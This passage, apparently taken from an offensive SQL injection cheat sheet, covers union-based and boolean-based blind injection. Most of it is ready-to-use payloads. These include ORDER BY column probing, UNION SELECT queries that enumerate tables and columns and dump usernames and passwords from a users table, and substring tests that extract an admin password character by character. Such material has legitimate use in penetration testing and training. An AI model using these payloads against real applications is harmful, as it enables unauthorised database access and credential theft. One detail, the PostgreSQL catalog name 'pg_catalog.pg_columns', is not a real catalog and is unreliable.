 **Exploitation**: Carefully crafted queries designed to extract specific data piece by piece through error messages.

#### Union-based SQLi
Uses the `UNION SELECT` statement to combine the results of two or more `SELECT` statements into a single result set. This allows the attacker to retrieve data from other tables, even if the original query was not designed for it.  

**Detection Steps**:
1.  **Find the number of columns**: Use `ORDER BY` clause to find the number of columns the original query selects.
                *   `' ORDER BY 1 -- `
                *   `' ORDER BY 2 -- ` (Continue incrementing until an error occurs; the last successful number is the column count).
                *   Alternatively, use `UNION SELECT NULL,NULL,NULL...` with varying numbers of NULLs until no error occurs.
2.  **Determine column types and data output positions**: Once the column count is known, use `UNION SELECT NULL, NULL, 'VULNERABLE', NULL...` to identify which columns display output in the application.
        *   **Exploitation Payloads (assuming 3 columns, 2nd column displays output)**:
            *   `' UNION SELECT NULL,VERSION(),NULL -- ` (Retrieve database version)
            *   `' UNION SELECT NULL,USER(),NULL -- ` (Retrieve current database user)
            *   `' UNION SELECT NULL,DATABASE(),NULL -- ` (Retrieve current database name)
            *   `' UNION SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables WHERE table_schema=DATABASE() -- ` (MySQL: Enumerate tables in the current database)
            *   `' UNION SELECT NULL,GROUP_CONCAT(column_name),NULL FROM information_schema.columns WHERE table_name='users' -- ` (MySQL: Enumerate columns in the 'users' table)
            *   `' UNION SELECT NULL,username,password FROM users -- ` (MySQL: Extract data from `username` and `password` columns in the `users` table)
            *   For MSSQL, use `sys.tables` and `sys.columns` instead of `information_schema`.
            *   For PostgreSQL, use `pg_catalog.pg_tables` and `pg_catalog.pg_columns`.

### Inferential SQLi (Blind SQLi)
Data is not directly transferred via the web application. The attacker infers information about the database by observing the application's responses (e.g., boolean responses or time delays). This is slower but often effective against well-configured applications that suppress error messages.  

#### Boolean-based Blind SQLi
Sends SQL queries that force the application to return a different response (e.g., a "true" or "false" page, or a subtle change in content) depending on whether the injected condition is met.  

**Detection Payloads**:
*   `' AND 1=1 -- ` (Page loads normally)
*   `' AND 1=2 -- ` (Page loads differently or gives an error)
*   If these two payloads yield different results, boolean-based blind SQLi is likely present.  

**Exploitation Payloads (character-by-character extraction)**:
*   `' AND SUBSTRING(VERSION(),1,1)='5' -- ` (Is the first character of the version '5'?)
*   `' AND (SELECT COUNT(*) FROM users) > 0 -- ` (Is there at least one user?)
*   `' AND SUBSTRING((SELECT password FROM users WHERE username='admin' LIMIT 1),1,1)='a' -- ` (Is the first char of admin's password 'a'?)
*   This requires automated tools or extensive scripting.
